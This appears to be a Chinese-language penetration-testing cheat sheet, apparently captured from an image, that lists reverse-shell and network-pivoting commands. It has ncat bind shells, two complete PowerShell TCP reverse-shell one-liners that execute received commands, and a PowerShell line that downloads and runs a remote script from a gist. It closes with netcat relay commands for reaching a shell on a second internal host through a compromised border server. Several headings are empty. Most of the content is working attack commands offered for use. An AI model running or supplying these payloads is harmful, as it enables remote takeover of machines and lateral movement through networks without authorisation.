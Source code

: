 ```bash
A:  ncat -c bash -allow 192.168.1.20 -vnl 3333 --ssl  #被控端(服务器端)   -allow允许连接的ip， 端口, ssl加密
B:  ncat -nv 192.168.1.19 3333 --ssl      #攻击端
# 监听端口
ncat -lvvp 777


# OpenSSL反弹shell




# crontab反弹shell




# MSF生成反弹shell




# Powershell反弹shell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("[IPADDR]",[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
# 或
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.1.3.40',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
# 或
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')

```

**内网代理**
```bash
# 场景：通过拿到的一台能访问的内网主机1，作为跳板(vps不能直接访问内网主机2)，拿到另外一台内网主机1才能访问到的内网主机2的shell
# vps监听
nc -lvp 3333
# 内网主机2执行
nc -lvp 3333 -e /bin/bash
# 内网主机1(边界服务器)执行
nc -v vps_ip -c "nc -v 内网主机2_ip 3333"

```

